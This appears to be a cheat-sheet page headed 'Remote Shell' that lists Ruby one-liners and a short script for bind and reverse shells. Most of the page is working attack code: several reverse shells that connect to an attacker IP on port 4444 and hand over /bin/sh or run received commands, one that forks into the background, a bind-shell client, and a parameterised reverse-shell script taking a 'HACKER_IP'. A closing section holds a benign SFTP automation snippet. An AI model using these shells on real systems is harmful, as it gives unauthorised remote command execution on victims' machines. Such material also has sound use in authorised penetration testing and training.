 # Remote Shell

> **Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell
from terminal
```ruby
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end'
```
since `192.168.0.15` is the victim IP

## Reverse shell
Attacker is listining on port 4444 `nc -lvp 4444`. Now on victim machine run
```ruby
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

if you don't whant to rely on `/bin/sh`
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

if you don't whant to rely on `cmd.exe`
```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

since `192.168.0.13` is the attacker IP

If you what it as more flixable script file

```ruby
#!/usr/bin/env ruby
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```



## Bind and Reverse shell 
This is an awesome implementation for a standalone  [bind](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb) and [reverse](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb) shells scripts written by [Hood3dRob1n](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells) on github . The bind shell requires authentication while reverse is not.




## Pseudo Terminal (PTY)
To be fixed
```ruby
# https://gist.github.com/kwent/e2c34c2dfd01a194a49a
# http://ruby-doc.org/stdlib-2.2.0/libdoc/pty/rdoc/PTY.html

require 'pty'
require 'expect'
PTY.spawn('sftp username@sftp.domain.com:/uploads') do |input, output|
  # Say yes to SSH fingerprint
  input.expect(/fingerprint/, 2) do |r|
    output.puts "yes" if !r.nil?
    # Enter SFTP password
    input.expect(/password/, 2) do |r|
      output.puts 'your_sftp_password' if !r.nil?
      input.expect(/sftp/) do
        # List folders and files in `/uploads`
        output.puts 'ls'
        # Check if folder named `foo` exist
        input.expect(/foo/, 1) do |result|
          is_folder_exist = result.nil? ? false : true
          # Create `foo` folder if does'nt exist
          output.puts "mkdir foo" if !is_folder_exist
          # Change directory to `foo`
          output.puts "cd foo"
          # Upload `/path/to/local/foo.txt` in `foo` folder as `foo.txt`
          output.puts "put /path/to/local/foo.txt foo.txt"
          # Exit SFTP
          output.puts "exit"
        end
      end
    end
  end
end
```


